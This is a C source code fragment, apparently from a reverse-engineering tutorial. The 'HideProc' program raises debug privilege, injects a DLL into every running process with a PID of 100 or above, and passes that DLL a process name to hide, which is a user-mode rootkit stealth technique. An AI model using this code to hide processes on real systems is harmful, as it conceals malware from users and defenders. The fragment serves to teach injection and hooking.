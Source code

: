 ```c
	HANDLE                  hSnapShot = INVALID_HANDLE_VALUE;
	PROCESSENTRY32          pe;

	// Get the snapshot of the system
	pe.dwSize = sizeof( PROCESSENTRY32 );
	hSnapShot = CreateToolhelp32Snapshot( TH32CS_SNAPALL, NULL );

	// find process
	Process32First(hSnapShot, &pe);
	do
	{
		dwPID = pe.th32ProcessID;

        // 시스템의 안정성을 위해서
        // PID 가 100 보다 작은 시스템 프로세스에 대해서는
        // DLL Injection 을 수행하지 않는다.
		if( dwPID < 100 )
			continue;

        if( nMode == INJECTION_MODE )
		    InjectDll(dwPID, szDllPath);
        else
            EjectDll(dwPID, szDllPath);
	}
	while( Process32Next(hSnapShot, &pe) );

	CloseHandle(hSnapShot);

	return TRUE;
}

int _tmain(int argc, TCHAR* argv[])
{
    int                     nMode = INJECTION_MODE;
    HMODULE                 hLib = NULL;
    PFN_SetProcName         SetProcName = NULL;

	if( argc != 4 )
	{
		printf("\n Usage  : HideProc.exe <-hide|-show> "\
               "<process name> <dll path>\n\n");
		return 1;
	}

	// change privilege
    SetPrivilege(SE_DEBUG_NAME, TRUE);

    // load library
    hLib = LoadLibrary(argv[3]);

    // set process name to hide
    SetProcName = (PFN_SetProcName)GetProcAddress(hLib, "SetProcName");
    SetProcName(argv[2]);

    // Inject(Eject) Dll to all process
    if( !_tcsicmp(argv[1], L"-show") )
	    nMode = EJECTION_MODE;

    InjectAllProcess(nMode, argv[3]);
    // free library
    FreeLibrary(hLib);
	return 0;
}
```